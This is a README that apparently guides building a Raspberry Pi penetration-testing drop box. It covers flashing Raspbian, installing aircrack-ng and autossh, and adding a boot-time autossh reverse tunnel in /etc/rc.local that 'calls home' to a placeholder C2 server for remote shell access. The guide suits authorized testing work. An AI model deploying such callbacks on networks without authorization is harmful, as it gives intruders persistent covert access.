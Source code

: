 # shells-on-cells
# Build rpi Image on Mac

Download Raspberian:
https://www.raspberrypi.org/downloads/raspbian/

Select RASPBIAN STRETCH 

Download latest-raspbian-stretch.zip and unarchive it, delete the archive, then use: laatest-raspbian-stretch.img in the next step

Open a terminal window and type:

$ diskutil list

Find the disk with the label you want: 

/dev/disk0 (internal, physical):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:      GUID_partition_scheme                        *800.2 GB   disk0
   1:                        EFI WRONG_DISK              209.7 MB   disk0s1
   2:          Apple_CoreStorage WRONG_DISK              799.3 GB   disk0s2
   3:                 Apple_Boot WRONG_DISK              650.0 MB   disk0s3

/dev/disk1 (internal, virtual):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:                  Apple_HFS WRONG_DISK             +798.9 GB   disk1
                                 Logical Volume on disk0s2
                                 00000000-0000-0000-0000-000000000000
                                 Unlocked Encrypted

/dev/disk2 (external, physical):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:     FDisk_partition_scheme                        *15.8 GB    disk2
   1:               Windows_NTFS WRONG_DISK              15.8 GB    disk2s1

*/dev/disk3 (external, physical):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:     FDisk_partition_scheme                        *31.9 GB    disk3
   1:             Windows_FAT_32 RIGHT_DISK              43.5 MB    disk3s1
   2:                      Linux                         31.9 GB    disk3s2

Find the disk you want and use:
(In my example my usb adapted for SD cards at this moment is /dev/disk3)

$ diskutil unmountDisk /dev/rdisk3

To unmount the selected disk you want

$ sudo dd bs=8m if=~/Downloads/2017-11-29-raspbian-stretch-lite.img of=/dev/rdisk3

After you put in your password it will work silently until it produces the following output:

221+1 records in
221+1 records out
1858076672 bytes transferred in 399.146789 secs (4655121 bytes/sec)

The drive will mount drop an empty "ssh" file into the root of the boot partition, and upon first boot the rpi will be in headless mode for the next steps in the configuration.



# Node Setup


Put the SD into the PI boot the pi and give it ethernet and you should be able to find it and ssh to it.
*If using a raspberry pi zero use this guide to get it up and running using the OTG port: https://learn.sparkfun.com/tutorials/getting-started-with-the-raspberry-pi-zero-wireless

Default User: pi
Default Pass: raspberry

Upon first login you get a warning to update the password

$ passwd

$ sudo apt update
$ sudo apt upgrade
$ sudo apt autoremove
$ sudo apt install bash-completion openssh-server autossh gpsd aircrack-ng dnsmasq hostapd

Use raspi-config to configure network before boot, and hostname

$ sudo raspi-config

Select Option 2, N1, then set hostname
Select Option 3, B2, Yes, Ok

When you exit it will ask to reboot, go ahead and reboot and reconnect
You should be connecting with your new password and the hostname should be changed

Regenerate Host Keys

Step # 1: Delete old ssh host keys

Login as the root and type the following command to delete files on your default SSH keys for the server:

$ sudo su -

# rm -v /etc/ssh/ssh_host_*

Step # 2: Reconfigure OpenSSH Server

Now create a new set of keys on your SSHD server, enter:

# dpkg-reconfigure openssh-server

You just regenerated new ssh server keys. You can restart ssh server:

# systemctl restart ssh
OR
# /etc/init.d/ssh restart

And logout of root

# exit

Now Make SSH Keys For node and copy them off so you have them. 

mkdir ~/.ssh
chmod 700 ~/.ssh
ssh-keygen -f ~/.ssh/ptdb_name_rsa -t rsa -b 4096 -N ''

Edit the following configuration files with the configurations:

sudo nano /etc/rc.local    Use /etc-rc.local

autossh -fN -R <ptdb port>:localhost:<c2 port for ptdb> <c2 user>@<c2 domain> -p <c2 port for ssh> -i /home/pi/.ssh/<nodename_rsa> &


Replacing the <ptdb port> with this ptdb's port that it will communicate to c2 with
Replace <c2 port for ssh> with the port the c2 does com over
Replace <c2 port for ptdb> with port number on c2 to use for this node
Replace <c2 user> with the username the n0d3z should call home too
Replace <c2 domain> with the domain or IP of the c2

sudo nano /etc/network/interfaces    Use /etc-network-interfaces
sudo nano /etc/ssh/ssh_config      Use /etc-ssh-ssh_config ptdb
sudo nano /etc/ssh/sshd_config       Use /etc-ssh-sshd_config ptdb

Now SSH to c2 with the same ssh command from yoursystem$, add fingerprint when prompted.
sudo nano /etc/ssh/ssh_config      Use /etc-ssh-ssh_config c2
sudo nano /etc/ssh/sshd_config       Use /etc-ssh-sshd_config c2

yoursystem$ ssh <c2 user>@<c2 domain> -p <c2 port for ssh> -i ~/.ssh/<c2key or ptdbkey>

c2$ ssh pi@localhost -p <c2 port for ptdb> -i ~/.ssh/<ptdbkey>

Reboot and netstat your c2 for your ptdb's

# C2 Configuration 

configure ssh enabled user
Copy node keys to ~/.ssh/
Open ssh port to machine
Disable password auth via ssh
Enable key-based login

Test Connection

$ netstat -an |grep <c2 port for ptdb> 











